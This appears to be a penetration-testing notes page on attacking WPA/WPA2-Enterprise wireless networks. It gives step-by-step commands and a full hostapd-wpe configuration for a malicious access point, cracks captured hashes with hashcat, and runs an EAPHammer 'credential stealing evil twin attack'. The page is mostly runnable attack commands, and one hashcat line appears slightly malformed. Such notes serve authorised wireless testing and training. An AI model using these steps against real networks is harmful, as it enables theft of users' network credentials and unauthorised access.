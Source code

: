 # Enterprise

### hostapd-wpe

1\. Install the required dependencies:

```bash
sudo apt install hostapd-wpe libnl-3-dev libssl-dev
```

2\. Modify the `hostapd-wpe.conf` file, ensuring to modify the `ssid` variable:

```bash
nano /etc/hostapd-wpe/hostapd-wpe.conf

#
# hostapd-wpe.conf
# Brad Antoniewicz (@brad_anton) - Foundstone
# ------------------------------------------------
#
# Configuration file for hostapd-wpe
# 
# General Options - Likely to need to be changed if you're using this
# Interface - Probably wlan0 for 802.11, eth0 for wired
interface=wlan0
# Driver - comment this out if 802.11
#driver=wired
# May have to change these depending on build location
eap_user_file=hostapd-wpe.eap_user
ca_cert=../../hostapd-wpe/certs/ca.pem
server_cert=../../hostapd-wpe/certs/server.pem
private_key=../../hostapd-wpe/certs/server.pem
private_key_passwd=whatever
dh_file=../../hostapd-wpe/certs/dh
# 802.11 Options - Uncomment all if 802.11
ssid=hostapd-wpe
hw_mode=g
channel=1
```

3\. Kill problematic processes such as `wpa_supplicant` which may interfere with our  access point:

```bash
sudo airmon-ng check
```

4\. We can then run our malicious access point and wait for connections:

```bash
hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```

5\. Upon receiving a connection we can attempt to crack the hash provided using Hashcat:

```bash
hashcat -m 5500 00 -a 0 /usr/share/wordlists/rockyou.txt
```

### EAPHammer

{% embed url="https://github.com/s0lst1c3/eaphammer" %}

1\. Clone `eaphammer` from the official repository:

```bash
git clone https://github.com/s0lst1c3/eaphammer.git
```

2\. Run the `kali-setup` script:

```bash
./kali-setup
```

3\. Finally, setup and execute the credential stealing evil twin attack against a WPA/2-EAP network:

```bash
# generate the certificate
./eaphammer --cert-wizard

# launch the attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid MaliciousAP --creds
```

### References

{% embed url="https://teckk2.github.io/wifi%20pentesting/2018/08/09/Cracking-WPA-WPA2-Enterprise.html" %}

{% embed url="https://adam-toscher.medium.com/top-5-ways-i-gained-access-to-your-corporate-wireless-network-lo0tbo0ty-karma-edition-f72e7995aef2" %}

{% embed url="https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html" %}
